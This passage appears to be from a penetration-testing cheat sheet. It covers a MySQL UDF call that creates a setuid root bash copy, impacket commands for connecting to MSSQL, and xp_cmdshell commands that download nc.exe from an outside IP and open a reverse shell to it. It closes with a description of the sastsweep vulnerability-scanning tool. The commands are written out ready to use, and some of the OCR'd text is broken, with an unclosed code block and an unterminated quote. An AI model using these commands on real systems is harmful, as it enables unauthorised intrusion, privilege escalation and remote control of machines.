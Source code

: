 ```
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                       4294967296 | 
+------------------------------------------------------------------+
1 row in set (0.00 sec)
```

# MSSQL
## Connect to MSSQL
```
impacket-mssqlclient user:password@10.11.10.10
```
Windows:
```
impacket-mssqlclient domain.local/user:password@10.10.10.10 -windows-auth
## Reverse shell using xp_cmdshell
```
enable_xp_cmdshell
xp_cmdshell "powershell.exe wget http://192.168.119.134/nc.exe -OutFile C:\\Users\Public\nc.exe"
xp_cmdshell "C:\Users\Public\nc.exe -e cmd.exe 192.168.119.134 443
```

# Sastsweep
Sweep github repos with:

https://github.com/chebuya/sastsweep

sastsweep is a tool designed for identifying vulnerabilities in open source codebases at scale. It can gather and filter on key repository metrics such as popularity and project size, enabling targeted vulnerability research. It automatically detects potential vulnerabilities using semgrep and provides a streamlined HTML report, allowing researchers to quickly drill down to the affected portion of the codebase.
